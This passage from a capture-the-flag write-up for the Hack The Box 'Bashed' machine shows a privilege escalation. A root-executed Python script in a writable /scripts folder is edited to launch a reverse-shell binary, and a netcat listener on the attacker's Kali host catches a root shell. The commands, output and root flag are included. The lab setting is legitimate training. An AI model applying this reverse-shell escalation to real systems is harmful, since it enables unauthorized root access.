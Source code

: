 ## Insecure file permissions - Privilege Escalation

Enumerated /scripts/ content:

```bash
scriptmanager@bashed:/scripts$ ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 May 12 05:38 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Edited the script in order to understand if it was executed by root:

```bash
scriptmanager@bashed:/scripts$ nano test.py
f = open("thiswasroot.txt", "w")
f.write("testing root!")
f.close
```

Root executed the script and generated a file:

```bash
scriptmanager@bashed:/scripts$ ls -al
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 May 12 06:33 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 May 12 06:32 test.py
-rw-r--r--  1 root          root            14 May 12 06:32 test.txt
-rw-r--r--  1 root          root            13 May 12 06:35 thiswasroot.txt
```

Edited the python file making it executing a reverse shell:

```bash
scriptmanager@bashed:/scripts$ nano test.py 
import os;
...
os.system('/tmp/rs.elf')
...
```

Executed the bash binary with high privileges and obtained a reverse shell:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Bashed]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 50054
id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
bashed
cc4f0afe3a1026d402ba10329674a8e2
ens33     Link encap:Ethernet  HWaddr 00:50:56:b9:01:ac
          inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
          inet6 addr: fe80::250:56ff:feb9:1ac/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:1ac/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:363531 errors:0 dropped:183 overruns:0 frame:0
          TX packets:348897 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
```